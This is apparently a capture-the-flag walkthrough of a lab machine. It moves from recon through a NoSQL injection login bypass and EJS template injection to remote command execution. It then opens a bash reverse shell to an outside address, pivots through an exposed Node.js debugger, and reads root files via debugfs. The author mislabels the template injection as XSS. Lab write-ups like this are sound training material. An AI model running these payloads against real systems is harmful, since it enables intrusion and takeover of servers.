








```bash
nmap -sV -sC 10.82.132.27 -oN nmap.txt               
```

I find a `Node.js` server on port 80.



```bash
ffuf -u http://10.113.160.242/FUZZ -w /usr/share/wordlists/dirb/big.txt
```
I can find:
* logout (302)
* staff (403) Forbidden

I cannot find /login, but this is where the POST request is sent with `Sign In`.


```bash
curl -i 10.82.132.27
```

`-i` to include headers.
`-I` - Only headers

I can see it is an Express server.
```html
<form method="post" action="/login">
        <label>Staff / Guest ID</label>
        <input name="username" autocomplete="off" placeholder="attendant">
        <label>Passphrase</label>
        <input name="password" type="password" autocomplete="off">
        <button type="submit">Sign in</button>
        
      </form>
```

`placeholder="attendant"` is important. **attendant** feels weird. Sometimes placeholders are used with real users, so this might be a real user. Placeholder is just what gray text with low opacity that is in the box for the user to see what to input.
```bash
curl -i http://10.113.160.242/login -H "Content-Type: application/json" -d '{"username":"test","password":"test"}'
```


```bash
curl -i -X POST http://10.82.132.27/login -H "Content-Type: application/json" -d '{"username":{"$ne":"null"},"password":{"$ne":"null"}}'
```
I get a response, `{"ok":true, "role":"guest"}`. 

If i supply the username `attendant`:

```bash
curl -i -X POST http://10.80.132.27/login -H "Content-Type: application/json" -d '{"username":{"$ne":"null"},"password":{"$ne":"null"}}'
```



I get `"role":"staff"`.

I also get a session cookie!
```
connect.sid=s%3AG3DhApSZyaPfVkvkF1M7zGG3APwO7lTc.Qutp4tYhVO0l11v6DX8lHSYaXRSzQUqdojtjP70yAgg
```


```bash
curl -i http://10.82.132.27/staff  -b "connect.sid=s%3AG3DhApSZyaPfVkvkF1M7zGG3APwO7lTc.Qutp4tYhVO0l11v6DX8lHSYaXRSzQUqdojtjP70yAgg" 
```

When using the staff session cookie, I can access the `/staff` endpoint.

I place the code in a `html` file and open it:



Signed in as attendant. 


```html
<form method="post" action="/staff/preview">
        <label>Confirmation template <span class="muted">(EJS &mdash; use <code>&lt;%= guest %&gt;</code> to personalise)</span></label>
        <textarea name="template">Dear <%= guest %>, your Byte Lotus cabana is confirmed.</textarea>
        <button type="submit">Preview</button>
      </form>
```

From both the code and the page I can find `<%= guest %>` which hints me towards `XSS`.

With the button `preview` I can POST the textarea `template` to the endpoint `/staff/preview`.

```bash
curl -i http://10.82.132.27/staff/preview -b "connect.sid=s%3AG3DhApSZyaPfVkvkF1M7zGG3APwO7lTc.Qutp4tYhVO0l11v6DX8lHSYaXRSzQUqdojtjP70yAgg" -d "template=<%= global.process.mainModule.require('child_process').execSync('id').toString() %>"
```

This injects the code into the template field:

```html
    <form method="post" action="/staff/preview">
        <label>Confirmation template <span class="muted">(EJS &mdash; use <code>&lt;%= guest %&gt;</code> to personalise)</span></label>
        <textarea name="template"><%= global.process.mainModule.require('child_process').execSync('id').toString() %></textarea>
        <button type="submit">Preview</button>
      </form>
      <label style="margin-top:18px">Preview</label><pre>uid=996(poolside) gid=996(poolside) groups=996(poolside)
</pre>
```



I have `XSS`.

Lets get a webshell:

```bash
curl -i http://10.82.132.27/staff/preview -b "connect.sid=s%3AG3DhApSZyaPfVkvkF1M7zGG3APwO7lTc.Qutp4tYhVO0l11v6DX8lHSYaXRSzQUqdojtjP70yAgg" -d "template=<%= global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/192.168.135.169/1337 0>&1\").toString() %>"
```

```html
curl -i http://10.82.132.27/staff/preview -b "connect.sid=s%3AG3DhApSZyaPfVkvkF1M7zGG3APwO7lTc.Qutp4tYhVO0l11v6DX8lHSYaXRSzQUqdojtjP70yAgg" --data-urlencode "template=<%= global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/192.168.135.169/1337 0>&1\"').toString() %>"
```

I had to add `--data-urlencode` because the command would be cut of at `bash -c "bash -i` with the error "Could not find matching close tag for "<%=".



I get a shell as poolside and can get the user flag:

```bash
cat /home/poolside/user.txt
THM{w4rm_s3ss10n_h1j4ck3d}
```

I upgrade my shell:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + z
stty raw --echo; fg
export TERM=xterm
```

I try to check sudo perms, but I do not have the password...


```bash
find / -not -path "/sys/*" -not -path "/snap*" -not -path "/sys/*" -not -path "/proc/*" -writable 2>/dev/null
```

Nothing interesting really, `/run/cloud-init/tmp`?


```bash
cat /etc/passwd | grep -E 'bash|home'

root:x:0:0:root:/root:/bin/bash
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
poolside:x:996:996::/home/poolside:/usr/sbin/nologin
pipelinesvc:x:995:995::/home/pipelinesvc:/usr/sbin/nologin
```

I find the user pipelinesvc which is interesting.


I can also find this process using `ps auxww`:
```
pipelin+     600  0.0  2.3 923032 45564 ?        Ssl  12:17   0:00 /usr/bin/node --inspect=127.0.0.1:9229 processor.js
```
Some `processor.js` running on port `9229`. 

`--inspect` ?


This all suggest towards pivoting to the user pipelinesvc.

```bash
find /etc/systemd/system/ -iname "*.service" 2>/dev/null | xargs grep -l pipeline 2>/dev/null
```

```
/etc/systemd/system/multi-user.target.wants/lotus-telemetry.service
/etc/systemd/system/lotus-telemetry.service
```

They both look like this
```
[Unit]
Description=Byte Lotus Occupancy Telemetry Processor
After=network.target

[Service]
Type=simple
User=pipelinesvc
Group=pipelinesvc
WorkingDirectory=/opt/pipelinesvc/telemetry
ExecStart=/usr/bin/node --inspect=127.0.0.1:9229 processor.js
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

What is interesting here is that node starts with `--inspect` which exposes the DevTools debugger interface.

```bash
curl localhost:9229/json/list
```

```json
[ {
  "description": "node.js instance",
  "devtoolsFrontendUrl": "devtools://devtools/bundled/js_app.html?experiments=true&v8only=true&ws=localhost:9229/ae64564f-771e-4c72-a654-b599adc9d91b",
  "devtoolsFrontendUrlCompat": "devtools://devtools/bundled/inspector.html?experiments=true&v8only=true&ws=localhost:9229/ae64564f-771e-4c72-a654-b599adc9d91b",
  "faviconUrl": "https://nodejs.org/static/images/favicons/favicon.ico",
  "id": "ae64564f-771e-4c72-a654-b599adc9d91b",
  "title": "processor.js",
  "type": "node",
  "url": "file:///opt/pipelinesvc/telemetry/processor.js",
  "webSocketDebuggerUrl": "ws://localhost:9229/ae64564f-771e-4c72-a654-b599adc9d91b"
} ]
```

The Node.js inspector / debugger port is open on localhost:9229. It allows arbitrary code execution in the context of that Node.js process:

To enter debug console:
```bash
node inspect localhost:9229

exec('process.mainModule.require("child_process").execSync("id").toString()')

'uid=995(pipelinesvc) gid=995(pipelinesvc) groups=995(pipelinesvc),6(disk)\n'
```
I get RCE as the `pipelinesvc` account. It will be hard to get a shell since this endpoint is internal only. But we are part of the `Disk` group, so lets investigate it.


```bash
exec('process.mainModule.require("child_process").execSync("lsblk").toString()')
```



These are all the disk partitions. nvme0n1p1 is the root partition.
```bash
exec('process.mainModule.require("child_process").execSync("debugfs /dev/nvme0n1p1 -R \\"ls /root\\"").toString()')
```



```bash
exec('process.mainModule.require("child_process").execSync("debugfs /dev/nvme0n1p1 -R \\"cat /root/root.txt\\"").toString()')
```
```
THM{r4w_d1sk_4cc3ss_w4s_t00_much}
```
Wehey!!